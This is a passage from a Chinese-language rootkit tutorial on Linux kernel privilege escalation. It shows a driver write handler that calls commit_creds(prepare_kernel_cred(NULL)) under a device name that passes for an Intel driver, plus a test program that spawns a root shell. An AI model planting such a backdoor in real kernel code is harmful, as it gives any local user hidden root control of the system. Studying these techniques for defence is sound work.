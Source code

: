 ```
struct cred *prepare_kernel_cred(struct task_struct *daemon)
`{`
    const struct cred *old;
    struct cred *new;

    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
    if (!new)
        return NULL;

    kdebug("prepare_kernel_cred() alloc %p", new);

    if (daemon)
        old = get_task_cred(daemon);
    else
        old = get_cred(&amp;init_cred);
...
```

在`prepare_kernel_cred()`函数中，若传入的参数为NULL，则会缺省使用`init`进程的`cred`作为模板进行拷贝，**即可以直接获得一个标识着root权限的cred结构体**

那么我们不难想到，只要我们能够在内核空间执行`commit_creds(prepare_kernel_cred(NULL))`，那么就能够将进程的权限提升到`root`

我们来简单测试一下：修改 write 函数，在用户向设备写入时将其提权到 root：

```
static ssize_t a3_rootkit_write(struct file * __file, const char __user * user_buf, size_t size, loff_t * __loff)
`{`
    commit_creds(prepare_kernel_cred(NULL));
    return 0;
`}`
```

测试例程：

```
#include &lt;unistd.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;fcntl.h&gt;

int main(void)
`{`
    int fd = open("/dev/intel_rapl_msrdv", O_RDWR);
    write(fd, "aaaa", 4);
    sleep(2);
    system("/bin/sh");
`}`
```

简单测试一下，可以看到当我们的进程写入设备之后便提权到了 root

[![](https://p1.ssl.qhimg.com/t01aa0482b65b9350ac.png)](https://p1.ssl.qhimg.com/t01aa0482b65b9350ac.png)
